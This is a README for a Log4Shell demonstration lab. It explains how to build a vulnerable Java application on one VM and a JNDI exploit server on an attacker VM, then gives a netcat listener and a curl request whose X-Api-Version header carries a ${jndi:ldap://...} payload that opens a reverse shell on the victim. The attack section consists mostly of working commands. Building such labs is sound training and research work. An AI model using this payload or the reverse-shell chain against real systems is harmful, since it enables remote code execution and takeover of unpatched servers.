


# log4shell-demo-lab
These are instructions for setting up a minimal lab to demonstrate the log4shell exploit. 
We are going to use two virtual machines.  These instructions were tested with Ubuntu 
18.04 LTS, but should work on newer versions.

## Preparing the Victim Machine

Install OpenJDK 8
```
sudo apt install -y openjdk-8-jdk
```

For the vulnerable app we are going to use a most excellent application 
forked from **christophetd/log4shell-vulnerable-app** with a very 
minor addition.

```
git clone https://github.com/ColorTokens-Labs/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
./gradlew assemble
```

The **gradlew** command will download a bunch of stuff, just let it finish.

You are now ready to launch the vulnerable application.  I am launching this
as the user **www-data** because that's what web applications usually run as.

```
export JAVA_TOOL_OPTIONS="-Dcom.sun.jndi.ldap.object.trustURLCodebase=true"
sudo --preserve-env=JAVA_TOOL_OPTIONS -u www-data java -jar build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar
```

If all has gone well, your screen should look like this:



## Preparing the Attacker's System

Install OpenJDK and Maven.

```
sudo apt install -y openjdk-8-jdk maven
```

We are using a JNDI Exploit server forked from **zzwlpx/JNDIExploit**.  Get it
from this github and build it.

```
git clone https://github.com/ColorTokens-Labs/JNDIExploit.git
cd JNDIExploit.git
mvn package
```

Now run the JNDI server.

```
java -jar target/JNDIExploit-1.0-SNAPSHOT.jar -i <Attacker VM IP (this machine)>
```

Your screen should look like this:



This completes the setup of the attacker and victim systems.

## Executing the exploit

With the vulnerable application running on the victim machine, and the JNDI exploit
server running on the attacker's machine, open two new session windows to the attacker's machine.

On first window, run the following command to listen for inbound reverse shell 
connections.  We are using port tcp/12345.  The **while** loop simply resrtarts the listener
when you are done with an interactive reverse shell session.

```
while [ true ]; do nc -nvlp 12345; done
```

On the second window, we will initiate the HTTP request that triggers the Log4shell exploit.
For convenience create variables for the IP addresses:

```
export my_ip=<Attacker VM IP (this machine)>
export victim_ip=<Victim VM IP>
```

You can now generate the HTTP request using this line as-is:

```
curl ${victim_ip}:8080 -H 'X-Api-Version: ${jndi:ldap://'"${my_ip}"':1389/Basic/ReverseShell/'"${my_ip}"'/12345}'
```

Congratulations! You should have received a shell to the Victim's machine on the first window.  
This is a basic shell without much stabilization.  Type **exit** when finished, and you will be
able to initiate the HTTP request again for another shell.

## Defending against the exploit

For instructions on defending against this with Xshield and Xprotect please 
[contact me](mailto:venky.raju@colortokens.com).
